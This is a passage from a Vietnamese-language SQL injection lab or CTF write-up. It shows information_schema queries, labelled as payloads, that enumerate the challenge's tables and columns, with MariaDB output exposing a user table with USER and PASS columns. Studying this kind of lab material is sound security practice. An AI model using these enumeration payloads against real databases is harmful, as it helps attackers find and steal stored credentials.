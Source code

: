   - Tuy nhiên phương pháp này trích xuất ra rất nhiều các *table* dư thừa

- Sử dụng *payload* này để chỉ xuất ra các *table* mà người ra đề tạo

  - Payload:

    ```mysql
    SELECT table_name FROM information_schema.tables WHERE table_schema not in ('information_schema', 'mysql', 'performance_schema')
    ```

    ```mysql
    MariaDB [xssuser]> SELECT table_name FROM information_schema.tables WHERE table_schema not in ('information_schema', 'mysql', 'performance_schema');
    +------------+
    | table_name |
    +------------+
    | menu       |
    | user       |
    +------------+
    2 rows in set (0.01 sec)
    ```

    

- Ngoài trích xuất các *table_name*, ta còn có thể trích xuất các *column_name*

  - Payload: 

    ```mysql
    SELECT column_name FROM information_schema.columns WHERE table_schema not in ('information_schema', 'mysql', 'performance_schema')
    ```

    ```mysql
    MariaDB [xssuser]> SELECT column_name FROM information_schema.columns WHERE table_schema not in ('information_schema', 'mysql', 'performance_schema');
    +-------------+
    | column_name |
    +-------------+
    | ID          |
    | NAME_MENU   |
    | ID          |
    | USER        |
    | PASS        |
    | USERID      |
    | LEVEL       |
    +-------------+
    7 rows in set (0.01 sec)
    ```
